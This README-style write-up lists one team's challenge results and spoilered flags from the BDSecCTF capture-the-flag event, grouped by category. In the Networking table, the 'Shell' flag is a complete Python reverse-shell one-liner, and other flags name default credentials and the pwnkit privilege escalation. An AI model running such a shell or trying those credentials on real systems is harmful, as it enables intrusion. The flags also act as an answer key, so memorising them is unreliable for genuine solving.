 # BDSecCTF - Write Up

## Context
The goal is to solve cybersecurity tests in various categories. The validation of a challenge is done by retrieving a string called flag which confirms the fact that you have passed the associated test and allows you to obtain the associated points.

## Rules
- Time : 24h (07/20/22 17h - 07/21/22 17h (UTC+2) )
- Max Pers per Team : 5
- Submit Limit : 30 per chall

## Results 
<p align='center'>

| ![Screenshot](Stats.png)            | ![Screenshot](Scoreboard.png)                                                                                                           |
| --------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
</p>

## Challenges

### Steganography

| Chall Name | Points | Goal | Flag |
|------------|:------:|:----:|:----:|
| [Sound's Good ✘](https://github.com/Beel0w/BDSecCTF/tree/main/Steganography/Sound's%20Good)|50|Convert a base 64 to .mp3. Listen and then convert the resulting number from bytes.fromhex to text. |<details><summary>`Spoiler`</summary>`BDSEC{Y3s_Y0U_GOT_Th3_Fl4G!|}`</details>|
| Deep Dive Into It !! ✘|250||``|

### PWN

| Chall Name|Points|Goal|Flag|
|----------|:--:|:-:|:-:|
| PwnRace ✔|200||``|

### Reverse

| Chall Name | Points | Goal | Flag |
|------------|:------:|:----:|:----:|
| BDSec License Checker 0x1 ✘|50|| <details><summary>`Spoiler`</summary>`BDSEC{l1c3n53_ch3ck3r_0x1_2022}`</details> |
| shashdot ✘|50|| `` |
| Flag Box ✔|100|| `` |
| Simple Math ✔|100|| `` |
| Poster ✔|100|| `` |
| BDSec License Checker 0x03 ✘|150|| <details><summary>`Spoiler`</summary>`BDSEC{iTs_lIcEnsE_cHeCker_tHrEE_bDsEc}`</details> |
| BDSec License Checker 0x02 ✘|200||``|

### Cryptography

| Chall Name | Points | Goal | Flag |
|------------|:------:|:----:|:----:|
|[Crypto Code ✔](https://github.com/Beel0w/BDSecCTF/tree/main/Cryptography/Cryptocode)|25|Using a python library to decrypt a message|<details><summary>`Spoiler`</summary>`BDSEC{cryp70_and_pyth0n_ar3_aw3s0me}`</details> |
|[VIPx01 ✔](https://github.com/Beel0w/BDSecCTF/tree/main/Cryptography/VIPx01)|25|Decrypting an encrypted message with Affine Cipher| <details><summary>`Spoiler`</summary>`BDSEC{crypt0_ar3_aw3s0m3}`</details> |
|VIPx02 ✘|25||<details><summary>`Spoiler`</summary>`BDSEC{crypt0_ar3_aw3s0m3_&_try_t0_1earn_crypt0}`</details> |
|[Fake ✔](https://github.com/Beel0w/BDSecCTF/tree/main/Cryptography/Fake)|50|Decrypt a message in the form of spam|<details><summary>`Spoiler`</summary>`BDSEC{do3sn't_b3li3ve_1n_unkn0wn_mail}`</details> |
|[Basically RSA ✔](https://github.com/Beel0w/BDSecCTF/tree/main/Cryptography/Basically%20RSA)|100|Decrypting an encrypted message with RSA|<details><summary>`Spoiler`</summary>`DSEC{r54_i5_fUn_r16h7?}`</details> |
|Dominoes ✘|50||<details><summary>`Spoiler`</summary>`BDSEC{n0t_50_e45y_hUh?_433}`</details> |
|Loop Lover ✘|100||<details><summary>`Spoiler`</summary>`BDSEC{ju57_L00p_m3_4w4y}`</details> |

### Web

| Chall Name | Points | Goal | Flag |
|------------|:------:|:----:|:----:|
|Jungle Templating ✔|100||<details><summary>`Spoiler`</summary>`BDSEC{Y3Y_7H1515_7H3_F146}`</details> |
|[Awesome Note Keeping ✔](https://github.com/Beel0w/BDSecCTF/tree/main/Web/Awesome%20Note%20Keeping)|100|Understanding how the script works in php to bypass the system| <details><summary>`Spoiler`</summary>`BDSEC{tHe_n0t3_K33p1n6_4W350M3_N5}`</details> |
|Knight Squad Shop ✔|100|| <details><summary>`Spoiler`</summary>`BDSEC{mummy_i_can't_write_javaScript}`</details> |

### Programming

| Chall Name | Points | Goal | Flag |
|------------|:------:|:----:|:----:|
|[Find The Cost ✔](https://github.com/Beel0w/BDSecCTF/tree/main/Programming/Find%20the%20Cost)|100|Create an algorithm to calculate the shortest path from a matrix|<details><summary>`Spoiler`</summary>`BDSEC{35,47}`</details> |

### OSINT

| Chall Name | Points | Goal | Flag |
|------------|:------:|:----:|:----:|
|[Find The Masterpiece](https://github.com/Beel0w/BDSecCTF/tree/main/OSINT/Find%20The%20Masterpiece) ✔|50|Turn numbers into tone and find the associated music|<details><summary>`Spoiler`</summary>`BDSEC{he’s_a_pirate,2003}`</details> |
|[Find Rejvi ✔](https://github.com/Beel0w/BDSecCTF/tree/main/OSINT/Find%20Rejvi)|70|Find a person’s profile on social media|<details><summary>`Spoiler`</summary>`BDSEC{yoU_goT_m3__oS1nT_I5_fUn_r1Gh7}`</details> |


### Misc

| Chall Name | Points | Goal | Flag |
|------------|:------:|:----:|:----:|
|[Message of Hufflepuff ✔](https://github.com/Beel0w/BDSecCTF/tree/main/Misc/Message%20of%20Hufflepuff)|50|Find a message from a probability diagram|<details><summary>`Spoiler`</summary>`BDSEC{Huffm@n_Enc0d1ng_go7_D3COD3D}`</details> |
|Find Me Inside ✔|50||<details><summary>`Spoiler`</summary>`BDSEC{M33m_the_butterfly_goes_up_up_and_away}`</details> |

### Networking

| Chall Name | Points | Goal | Flag |
|------------|:------:|:----:|:----:|
|Victim & Attacker ✔|25||<details><summary>`Spoiler`</summary>`BDSEC{192.168.1.13_192.168.1.10}`</details> |
|Which FTP ? ✔|50||<details><summary>`Spoiler`</summary>`BDSEC{vsFTPd_3.0.3}` |
|FTP Creads ✔|50||<details><summary>`Spoiler`</summary>`BDSEC{ftpadmin_ftpadmin}`</details> |
|Uploaded File ✔|50|| <details><summary>`Spoiler`</summary>`BDSEC{/files/.hacker.not}`</details> |
|Log Filer ✔|50||<details><summary>`Spoiler`</summary>`BDSEC{vsftpd.log}`</details> |
|Project Incharge ✔|50||<details><summary>`Spoiler`</summary>`BDSEC{Mark}`</details> |
|Loooon Looong ✔|50||<details><summary>`Spoiler`</summary>`BDSEC{Thu_Jul_14_10:16:59}`</details> |
|Administrator ✔|50||<details><summary>`Spoiler`</summary>`BDSEC{demo,demo}` |
|Shell ✔|50||<details><summary>`Spoiler`</summary>`BDSEC{python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'}`</details> |
|Secret Key ✔|50|| <details><summary>`Spoiler`</summary>`BDSEC{2jo3t12nv51w1pw4wk1kj58s1jb6w0}`</details> |
|Database Admin ✔|50||<details><summary>`Spoiler`</summary>`BDSEC{root_root}`</details> |
|HostName ✔|50||<details><summary>`Spoiler`</summary>`BDSEC{ftpadmin}`</details> |
|CodeName ✔|50||<details><summary>`Spoiler`</summary>`BDSEC{xenial}`</details> |
|Server Info ✔|50||<details><summary>`Spoiler`</summary>`BDSEC{Ubuntu_16.04.1_LTS_Xenial_Xerus}`</details> |
|Service Exploit ✔|50||<details><summary>`Spoiler`</summary>`BDSEC{polkit}`</details> |
|Exploit Exploit Exploit ✔|50||<details><summary>`Spoiler`</summary>`BDSEC{pwnkit}`</details> |
|Vulnerable Service ✔| 50||<details><summary>`Spoiler`</summary>`BDSEC{pkexec}` |
|msg.txt ✔|50||<details><summary>`Spoiler`</summary>`BDSEC{The_Server_Is_Now_under_My_Control_:D_:D}`</details> |
|Attacker ✔|50||<details><summary>`Spoiler`</summary>`BDSEC{N4N0M473}`</details> |
|Server User's ✔ |50||<details><summary>`Spoiler`</summary>`BDSEC{8}`</details> |  

**Total : 46 Challenges ( 3220 Points )**
 
Credits : [Beel0w](https://github.com/Beel0w)  
Last Edited on: 27/07/2022
  
